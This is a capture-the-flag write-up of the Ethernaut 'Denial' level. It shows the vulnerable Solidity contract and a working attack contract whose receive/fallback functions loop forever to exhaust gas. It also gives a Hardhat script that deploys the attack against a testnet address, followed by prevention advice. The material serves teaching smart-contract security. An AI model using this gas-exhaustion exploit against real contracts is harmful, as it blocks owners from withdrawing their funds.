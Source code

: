 # Ethernaut - Denial Level

## Level Introduction

The Denial level requires you to become the contract's partner and prevent the owner from withdrawing funds. Even though the contract has sufficient funds and the transaction gas limit is 1M or less, you must ensure that the owner cannot successfully execute the withdraw() function.

## Target Contract Analysis

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Denial {
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint256 timeLastWithdrawn;
    mapping(address => uint256) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint256 amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

## Vulnerability Analysis

The main vulnerability in this contract lies in the `partner.call{value: amountToSend}("")` method in the `withdraw()` function:

1. **Gas Limit Issue**:
   - The contract uses the `call` method for transfers without setting a gas limit
   - Therefore, the partner contract can consume all available gas in the transaction

2. **Execution Order Issue**:
   - The contract executes the partner's transfer first, then the owner's transfer
   - If the partner transfer step consumes all gas, subsequent steps cannot execute

3. **Lack of Fund Protection Mechanism**:
   - The contract has no mechanism to prevent malicious partners from consuming too much gas
   - No emergency withdrawal mechanism is provided for the owner

## Attack Method

We can create a malicious contract whose `receive()` or `fallback()` function deliberately consumes all available gas, making the `withdraw()` function unable to complete execution, thus preventing the owner from receiving funds.

### Attack Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IDenial {
    function setWithdrawPartner(address _partner) external;
    function withdraw() external;
}

contract AttackDenial {
    // Target Denial contract
    IDenial public target;
    
    constructor(address _target) {
        target = IDenial(_target);
    }
    
    // Set ourselves as partner
    function attack() external {
        target.setWithdrawPartner(address(this));
    }
    
    // Consume all gas when receiving ether
    receive() external payable {
        // Use infinite loop to consume all gas
        while(true) {}
    }
    
    // Backup receive function in case receive is not triggered
    fallback() external payable {
        // Also use infinite loop to consume all gas
        while(true) {}
    }
}
```

### Deployment and Attack Script

```typescript
import hre from "hardhat";
const { ethers } = hre;

async function main() {
    console.log("Starting Denial contract attack script...");

    // Target contract address
    const targetAddress = "0xBBa23DbF343d46966D990dc7245577D3681ba12B";
    
    // Deploy attack contract
    const attackFactory = await ethers.getContractFactory("AttackDenial");
    const attackContract = await attackFactory.deploy(targetAddress);
    await attackContract.waitForDeployment();
    
    // Execute attack, set attack contract as partner
    await attackContract.attack();
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

## Attack Principle

1. We deploy the `AttackDenial` contract and pass the target Denial contract address to the constructor
2. Through the `attack()` function, we set the attack contract as the Denial contract's partner
3. When the Denial contract executes `withdraw()`, it sends funds to the attack contract
4. The attack contract's `receive()` function executes an infinite loop, consuming all available gas
5. Due to gas exhaustion, the Denial contract cannot complete execution to the owner transfer part
6. Therefore, the owner cannot withdraw funds, and we successfully prevent the withdraw operation

## Execute Attack

```shell
npx hardhat run scripts/attackDenial.ts --network optimismSepolia
```

## Prevention Measures

To prevent similar vulnerabilities, contract developers should:

1. **Limit Gas Usage**:
   - Use `call{gas: specificAmount}` to limit gas forwarded to external contracts
   - Or use `transfer()` or `send()` methods (built-in 2300 gas limit)

2. **Use Pull Pattern**:
   - Switch to "pull" rather than "push" mode for sending funds
   - Let recipients call withdrawal functions themselves instead of actively sending

3. **Checks-Effects-Interactions Pattern**:
   - Perform all state changes first, then interact with external contracts last
   - This way, even if external calls fail, the state has been correctly updated

4. **Add Emergency Withdrawal Mechanism**:
   - Provide emergency withdrawal functions for the owner
   - Bypass normal withdrawal process in special circumstances

## Learning Insights

This level demonstrates the dangers of the `call` method in Solidity: it forwards all available gas and doesn't automatically revert. In contrast, the `transfer` and `send` methods limit gas to 2300 units, which can reduce the risk of such attacks.

In summary, when handling fund transfers, always carefully design interaction patterns and follow verified security patterns.
